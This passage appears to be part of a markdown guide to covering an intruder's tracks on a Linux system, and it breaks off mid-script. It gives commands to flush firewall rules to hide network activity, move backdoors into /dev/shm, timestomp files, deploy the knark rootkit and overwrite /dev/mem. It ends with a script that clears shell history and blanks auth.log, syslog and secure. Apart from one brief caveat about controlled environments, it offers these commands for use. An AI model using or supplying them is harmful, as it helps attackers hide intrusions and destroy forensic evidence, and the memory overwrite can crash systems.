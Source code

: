 ### **Flush IP Tables**
Clear existing firewall rules to hide network activity:
```bash
iptables -F
```

---

## **5. Persistence Mechanisms**

### **Remove Startup Backdoors**
If a backdoor is added to system startup, remove it:
```bash
rm /etc/systemd/system/malicious.service
```

### **Hide Malicious Scripts**
Store scripts in less-monitored directories:
```bash
mv /path/to/backdoor /dev/shm/
```

---

## **6. Advanced Anti-Forensic Techniques**

### **Using `Timestomp`**
Modify file timestamps to confuse forensic analysis:
```bash
timestomp /path/to/file --create "01/01/2024 12:00:00"
```

### **Rootkit Deployment**
Use rootkits like `knark` to hide processes and files. (Ensure rootkits are used in controlled environments only!)

### **Memory Clearing**
Overwrite sensitive data in memory:
```bash
dd if=/dev/zero of=/dev/mem bs=1M
```

---

## **7. Example Track-Clearing Script**
Here’s a bash script to automate basic track-clearing tasks:

```bash
#!/bin/bash

# Clear shell history
history -c
rm -f ~/.bash_history

# Delete specific logs
LOG_FILES=(
    "/var/log/auth.log"
    "/var/log/syslog"
    "/var/log/secure"
)

for log in "${LOG_FILES[@]}"; do
    echo "" > "$log"
```